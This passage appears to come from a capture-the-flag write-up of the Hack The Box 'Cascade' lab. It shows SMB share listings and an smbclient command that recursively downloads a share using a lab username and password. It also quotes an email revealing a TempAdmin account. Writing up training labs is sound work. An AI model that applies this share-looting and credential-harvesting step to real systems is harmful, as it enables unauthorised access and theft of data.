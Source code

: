 ```shell
\Temps
NT_STATUS_ACCESS_DENIED listing \Temps\*

\IT\Email Archives
  .                                   D        0  Tue Jan 28 13:00:30 2020
  ..                                  D        0  Tue Jan 28 13:00:30 2020
  Meeting_Notes_June_2018.html       An     2522  Tue Jan 28 13:00:12 2020
\IT\LogonAudit
  .                                   D        0  Tue Jan 28 13:04:40 2020
  ..                                  D        0  Tue Jan 28 13:04:40 2020
\IT\Logs
  .                                   D        0  Tue Jan 28 19:53:04 2020
  ..                                  D        0  Tue Jan 28 19:53:04 2020
  Ark AD Recycle Bin                  D        0  Fri Jan 10 11:33:45 2020
  DCs                                 D        0  Tue Jan 28 19:56:00 2020
\IT\Temp
  .                                   D        0  Tue Jan 28 17:06:59 2020
  ..                                  D        0  Tue Jan 28 17:06:59 2020
  r.thompson                          D        0  Tue Jan 28 17:06:53 2020
  s.smith                             D        0  Tue Jan 28 15:00:01 2020
\IT\Logs\Ark AD Recycle Bin
  .                                   D        0  Fri Jan 10 11:33:45 2020
  ..                                  D        0  Fri Jan 10 11:33:45 2020
  ArkAdRecycleBin.log                 A     1303  Tue Jan 28 20:19:11 2020
\IT\Logs\DCs
  .                                   D        0  Tue Jan 28 19:56:00 2020
  ..                                  D        0  Tue Jan 28 19:56:00 2020
  dcdiag.log                          A     5967  Fri Jan 10 11:17:30 2020
\IT\Temp\r.thompson
  .                                   D        0  Tue Jan 28 17:06:53 2020
  ..                                  D        0  Tue Jan 28 17:06:53 2020
\IT\Temp\s.smith
  .                                   D        0  Tue Jan 28 15:00:01 2020
  ..                                  D        0  Tue Jan 28 15:00:01 2020
  VNC Install.reg                     A     2680  Tue Jan 28 14:27:44 2020
```

that works, but for our convenience, we can download all the contents of /Data share locally:
```shell
smbclient '//cascade.htb/Data' -N -c 'prompt OFF;recurse ON;cd '//cascade.htb/Data';lcd '/root/HTB/cascade/smb_shares/';mget *' -U r.thompson%rY4n5eva
```

on the `/IT/Email Archives/Meeting_Notes_June_2018.html` i found this:
```shell
From: Steve Smith 
- We will be using a temporary account to perform all tasks related to the network migration and this account will be deleted at the end of 2018 once the migration is complete. This will allow us to identify actions related to the migration in security logs etc. Username is TempAdmin (password is the same as the normal admin account password). 
- The winner of the “Best GPO” competition will be announced on Friday so get your submissions in soon.
```
so we have the sender steve smith and a temp user
```shell
Steve Smith
TempAdmin
```
(it also mentioned gpo, which is an existent domain group, we will keep that in mind for later, if it )
